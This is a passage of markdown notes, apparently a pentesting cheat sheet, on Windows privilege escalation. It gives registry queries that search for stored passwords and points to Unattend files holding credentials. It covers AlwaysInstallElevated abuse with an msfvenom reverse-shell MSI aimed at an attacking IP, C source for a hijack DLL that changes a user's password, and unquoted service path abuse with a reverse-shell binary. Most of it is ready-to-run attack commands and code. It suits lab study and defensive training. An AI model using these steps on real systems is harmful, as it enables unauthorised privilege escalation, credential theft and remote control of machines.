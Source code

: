   5. Registry keys -- Registry keys potentially containing passwords can be queried using the commands below.
  6. `reg query HKLM /f password /t REG_SZ /s`
  7. `reg query HKCU /f password /t REG_SZ /s`
  8. Unattend files -- potential users passwords are stored in base64. `C:\Windows\Panther\Unattend\Unattended.xml`
  9. AlwaysInstallElevated -- to work requirements must be enabled.
     1. reg query HKEY\_CURRENT\_USER\Software\Policies\Microsoft\Windows\Installer -- must be on
     2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer -- must be on
     3. msfvenom -p windows/x64/shell\_reverse\_tcpLHOST=ATTACKING\_10.10.10.223 LPORT=LOCAL\_PORT -f msi -o malicious.msi -- generate msi
     4. create listener on attacking machine
     5. msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi -- install

### DLL Hijacking

* to find potential DLL hijacking vulnerabilities is Process Monitor (ProcMon). As ProcMon will require administrative privileges to work, this is not a vulnerability you can uncover on the target system.
* look for NAME NOT FOUND; this means that its trying to call the dll but cannot find it, thus allowing the attacker to create a malicious dll and place it in the path where its trying to call it.
* to create a malicious dll save as c. mingw compiler can be used to generate the DLL. `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`. transfer the file to the windows machine.
* `apt install gcc-mingw-w64-x86-64` to install on linux

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user user Newpassword11");
        ExitProcess(0);
    }
    return TRUE;
}
```

* restart the dllsvc service `sc stop dllsvc & sc start dllsvc`

### unquoated service paths vulnerability

* `wmic service get name,displayname,pathname,startmode` - this will list services running or `sc query state= all`
* `sc qc unquotedsvc` - this will further check the binary path of this service
* `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` -- this will check our privileges on folders inthe path. the goal is to find a folder that is writable.
* `sc start unquotedsvc` - to start the service use cmd
* if `CanRestart` is `True` -- create malicous reverse shell executable with msfvenom and replace the service executable with the malicous one.

### enumerating server manager (remote desktop)

* Navigate to the tools tab and select the Active Directory Users and Computers -- This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers
